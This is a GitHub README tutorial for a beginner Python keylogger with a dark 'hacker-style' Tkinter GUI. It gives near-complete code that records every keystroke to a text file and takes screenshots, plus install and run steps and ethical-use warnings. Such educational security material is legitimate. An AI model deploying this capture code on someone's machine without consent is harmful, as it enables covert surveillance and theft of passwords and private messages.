 ### 💀🕶️ Black Phantom Logger

## ⚠️ Warning & Ethical Considerations
**🚨 This tool is meant for eductional purpose and learning cybersecurity only!**
- Do **not** use this tool without proper authorization.
- Unauthorized use of keyloggers is **illegal and punishable** by law.
- The author **takes no responsibility** for any unethical or misuse use of this code.

🔴 **Use responsibly and ethically.**

## 🛠️ Tools Used
For writing and running the Python script, I used:

Thonny IDE – A beginner-friendly Python environment, great for easy script execution and debugging.

## 📦 Required Python Libraries
Before running the keylogger, install the necessary libraries:

`pip install pynput tkinter opencv-python pyautogui pillow`

# Libraries Explained:

`pynput` – Captures keystrokes in the background.

`tkinter` – Creates the GUI for our Black Phantom Logger.

`opencv-python` – Helps handle images (optional for additional features).

`pyautogui` – Captures screenshots.

`PIL (pillow)` – Supports image manipulation inside the GUI.

## 🚀 Project Overview
This is a simple keylogger with a dark hacker-themed GUI named Black Phantom Logger. It records keystrokes and saves them to a file. It also includes:

A graphical user interface (GUI) using Tkinter.

A dark "hacker-style" theme with a black and green aesthetic.

A button for starting and stopping the keylogger.

A logo of a hacker to enhance the simulation experience.

A feature to capture the screen as an extra functionality.

📜 Code Walkthrough
Let's break down the script step by step!

# 1️⃣ Importing Required Modules

```python
import tkinter as tk
from tkinter import messagebox
from pynput.keyboard import Listener
import os
import pyautogui
from PIL import Image, ImageTk```

`tkinter` – Creates the graphical interface.

`pynput.keyboard.Listener` – Monitors and records keystrokes.

`os` – Handles file operations.

`pyautogui` – Captures screenshots.

`PIL.Image, ImageTk` – Displays images in the GUI.

# 2️⃣ Creating the GUI (Graphical User Interface)

```python
root = tk.Tk()
root.title("Black Phantom Logger")
root.geometry("400x400")
root.configure(bg="black")
tk.Tk() – Initializes the main window.

title("Black Phantom Logger") – Sets the program title.

geometry("400x400") – Defines the window size.

configure(bg="black") – Applies the dark hacker-style theme.```

3️⃣ Adding a Hacker-Style Logo

logo = Image.open("hacker_logo.png")  # Make sure you have an image named hacker_logo.png
logo = logo.resize((100, 100))
logo = ImageTk.PhotoImage(logo)
logo_label = tk.Label(root, image=logo, bg="black")
logo_label.pack()
Loads a hacker-themed image to enhance the look.

Resizes the image and places it in the GUI.

4️⃣ Keystroke Logging Function

def log_keystrokes(key):
    key = str(key).replace("'", "")
    with open("keystrokes.txt", "a") as file:
        file.write(key + "\n")
Converts each pressed key into a string.

Saves the keystrokes into a text file (keystrokes.txt).

5️⃣ Screenshot Capture Function

def capture_screen():
    screenshot = pyautogui.screenshot()
    screenshot.save("screenshot.png")
    messagebox.showinfo("Screenshot", "Screenshot saved as screenshot.png")
Uses pyautogui.screenshot() to take a snapshot.

Saves the image as "screenshot.png".

Displays a confirmation message.

6️⃣ Start & Stop Buttons

def start_logger():
    global listener
    listener = Listener(on_press=log_keystrokes)
    listener.start()
    messagebox.showinfo("Logger", "Keylogger Started!")

def stop_logger():
    if listener:
        listener.stop()
        messagebox.showinfo("Logger", "Keylogger Stopped!")
start_logger() – Begins keylogging in the background.

stop_logger() – Stops the keylogger when needed.

7️⃣ Adding Buttons to GUI

start_button = tk.Button(root, text="Start Logging", command=start_logger, bg="green", fg="white")
stop_button = tk.Button(root, text="Stop Logging", command=stop_logger, bg="red", fg="white")
screenshot_button = tk.Button(root, text="Capture Screen", command=capture_screen, bg="blue", fg="white")

start_button.pack(pady=10)
stop_button.pack(pady=10)
screenshot_button.pack(pady=10)
Buttons added:

Start Logging (Green Button)

Stop Logging (Red Button)

Capture Screen (Blue Button)

8️⃣ Running the GUI

root.mainloop()
root.mainloop() keeps the window running.

### 🎭 Features & Hacker Simulation Experience
Dark Theme: A black & green color scheme for a hacker-like feel.

Hacker Logo: Enhances the interface's aesthetics.

Keylogging: Logs all keystrokes into a file.

Screen Capture: Takes a screenshot for additional monitoring.

### ⚠️ Warning & Ethical Considerations

🚨 This tool is meant for learning cybersecurity only!

Do not use this tool without proper authorization.

Unauthorized use of keyloggers is illegal and punishable by law.

The author takes no responsibility for any unethical use.

🔴 Use responsibly and ethically.

### 👨‍💻 How to Run the Keylogger
Install Thonny IDE (if not installed).

Download or clone this repository:

git clone (https://github.com/AhmedSalahHassanQatar/PRODIGY_CS_04)
cd black-phantom-logger

Install dependencies:
pip install pynput tkinter opencv-python pyautogui pillow
Run the script in Thonny or terminal:
python keylogger.py

📜 Final Words
This project is a basic yet powerful way to understand how keyloggers work in a cybersecurity research context. If you're a beginner, this is a great starting point for learning about ethical hacking, Python scripting, and GUI development.

🚀 Happy Learning, and Stay Ethical!
